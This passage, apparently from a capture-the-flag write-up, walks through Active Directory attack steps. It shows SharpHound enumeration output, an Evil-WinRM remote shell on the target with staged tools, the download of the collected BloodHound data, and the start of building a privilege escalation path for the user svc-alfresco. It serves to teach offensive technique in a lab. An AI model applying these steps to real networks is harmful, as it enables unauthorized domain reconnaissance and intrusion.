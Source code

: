 ```
2024-08-12T22:04:11.5559007-07:00|INFORMATION|SharpHound Enumeration Completed at 10:04 PM on 8/12/2024! Happy Graphing!

###### The Above Command Will Create a zip file in the same directory.

*Evil-WinRM* PS C:\tmp> dir
    Directory: C:\tmp
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/12/2024  10:04 PM          18513 20240812220410_BloodHound.zip
-a----        8/12/2024  10:04 PM          19538 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        8/12/2024  10:02 PM        1046528 SharpHound.exe
-a----        8/12/2024   8:39 PM          36184 winPEAS.bat

####### DOWNLOAD THE ZIP FILE AND IMPORT IT IN BLOODHOUND

*Evil-WinRM* PS C:\tmp> download 20240812220410_BloodHound.zip
Info: Downloading C:\tmp\20240812220410_BloodHound.zip to 20240812220410_BloodHound.zip
Info: Download successful!
```

okay now we have our zip file. You can follow the tutorial on [ired.team](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux) on how to install BloodHound on your Kali. Basically you will need to install neo4j than reset the default password for the user neo4j and then run the bloodhound from the terminal. I already did it. Following to that, Click on the ***Upload Data*** from the top right corner icons and select your zip file. Now Let's Prepare the Privilege Escalation Path.

#### Using Shortest Path From Own Principal

Once the zip file is imported, Search for the user svc-alfresco in the top left corner and hit enter. Right Click on the user svc-alfresco and select **Marked User as owned**
